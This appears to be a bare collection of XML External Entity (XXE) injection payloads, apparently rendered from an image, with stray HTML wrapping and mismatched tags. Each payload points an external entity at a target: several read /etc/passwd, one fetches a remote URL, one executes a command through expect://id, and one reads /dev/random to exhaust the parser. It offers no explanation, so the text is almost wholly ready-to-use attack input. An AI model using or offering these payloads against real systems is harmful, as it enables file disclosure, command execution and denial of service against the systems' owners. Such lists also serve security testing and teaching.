 

<html>
<body>
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
</body>
</xml>
</html>


<html>
<body>
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
</body>
</xml>
</html>

<html>
<body>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://en.wikipedia.org/"> ]>
</body>
</xml>
</html>



<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>


<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>

<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>
